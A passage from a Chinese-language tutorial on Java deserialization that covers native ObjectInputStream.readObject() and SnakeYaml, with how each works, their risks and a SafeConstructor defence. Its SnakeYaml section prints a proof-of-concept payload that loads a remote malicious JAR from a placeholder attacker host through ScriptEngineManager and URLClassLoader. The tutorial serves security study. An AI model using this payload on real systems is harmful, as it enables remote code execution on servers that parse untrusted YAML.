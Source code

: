  ## Java反序列化1（原生类）

序列化是将Java对象转换成字节流的过程。而反序列化是将字节流转换成Java对象的过程，java序列化的数据一般会以标记(ac ed 00 05)开头，base64编码的特征为rO0AB，JAVA常见的序列化和反序列化的方法有JAVA 原生序列化和JSON 类（fastjson、jackson）序列化等。

Java中可分为：原生反序列化类(ObjectInputStream.readObject()、SnakeYaml、XMLDecoder等)、三方组件反序列化(Fastjson、Jackson、Xstream等)

Java反序列化机制是对象持久化和网络传输的核心，但也因其复杂性成为安全漏洞的高发区。以下从原生反序列化类和第三方组件两方面进行系统性分析：

------

## 介绍

### ⚙️ **一、原生反序列化类**

#### **1. `ObjectInputStream.readObject()`**

- **机制**：Java标准库通过`ObjectInputStream`将字节流还原为对象，要求目标类实现`Serializable`接口。

- **流程**：

  ```
  try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("data.ser"))) {
      Employee emp = (Employee) ois.readObject(); // 强制类型转换
  } catch (ClassNotFoundException | IOException e) {...}
  ```

- **特性**：

  - **版本兼容**：依赖`serialVersionUID`校验类定义一致性，不匹配则抛出`InvalidClassException`。
  - **字段处理**：忽略`static`和`transient`修饰的字段（后者常用于排除敏感数据如密码）。

- **风险**：恶意构造的字节流可触发任意代码执行（如利用`readObject`中的重写逻辑）。

#### **2. SnakeYaml**

- **用途**：解析YAML数据为Java对象，支持`Yaml.load()`反序列化。

- **语法特性**：

  - 通过`!!`强制类型转换（如`!!com.example.User`）。
  - 支持嵌套结构（如`[[列表]]`）和复杂映射。

- **漏洞原理**：

  - 利用SPI机制动态加载类，例如恶意构造`!!javax.script.ScriptEngineManager`加载远程JAR，触发静态代码块执行命令。

  - 复现POC：

    ```
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[!!java.net.URL ["http://攻击者IP/malicious.jar"]]]
    ]
    ```

- **防护**：使用`SafeConstructor`白名单限制可加载类。
